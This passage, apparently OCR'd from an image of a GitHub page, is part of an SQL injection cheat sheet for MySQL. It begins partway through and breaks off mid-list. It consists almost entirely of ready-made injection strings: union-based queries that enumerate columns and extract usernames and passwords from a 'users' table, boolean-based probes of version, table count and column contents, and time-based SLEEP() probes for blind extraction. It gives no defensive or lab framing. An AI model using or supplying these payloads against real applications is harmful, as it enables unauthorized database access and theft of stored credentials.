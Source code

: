     ```c
    ' UNION SELECT NULL, column_name FROM information_schema.columns WHERE table_name='users' LIMIT 1,1 -- -
    ```
*   **Data Extraction:** Extracts data from specific columns in the `users` table.

    ```c
    ' UNION SELECT NULL, username, password FROM users -- -
    ```

**Boolean-Based SQLi**

*   **Checking MySQL Version:** Evaluates to true if the MySQL version starts with '5'.

    ```c
    ' AND SUBSTRING(version(), 1, 1) = '5' -- -
    ```
*   **Determining the Number of Tables:** Evaluates to true if there are more than 10 tables in the current database.

    ```c
    ' AND (SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database()) > 10 -- -
    ```
*   **Checking Existence of a Column:** Evaluates to true if the `password` column exists in the `users` table.

    ```c
    ' AND (SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users' AND column_name='password') > 0 -- -
    ```
*   **Extracting Data from a Column:** Evaluates to true if the first character of the first username in the `users` table is 'a'.

    ```c
    ' AND (SELECT SUBSTRING(username, 1, 1) FROM users LIMIT 1) = 'a' -- -
    ```

**Time-Based SQLi**

*   **Checking MySQL Version:** Causes a 5-second delay if the MySQL version starts with '5'.

    ```c
    ' AND IF(SUBSTRING(version(), 1, 1)='5', SLEEP(5), 0) -- -
    ```
*   **Determining the Number of Tables:** Causes a 5-second delay if there are more than 10 tables in the current database.

    ```c
    ' AND IF((SELECT COUNT(*) FROM information_schema.tables WHERE table_schema=database()) > 10, SLEEP(5), 0) -- -
    ```
*   **Checking Existence of a Column:** Causes a 5-second delay if the `password` column exists in the `users` table.

    ```c
    ' AND IF((SELECT COUNT(*) FROM information_schema.columns WHERE table_name='users' AND column_name='password') > 0, SLEEP(5), 0) -- -
    ```
*   **Extracting Data from a Column:** Causes a 5-second delay if the first character of the first username in the `users` table is 'a'.

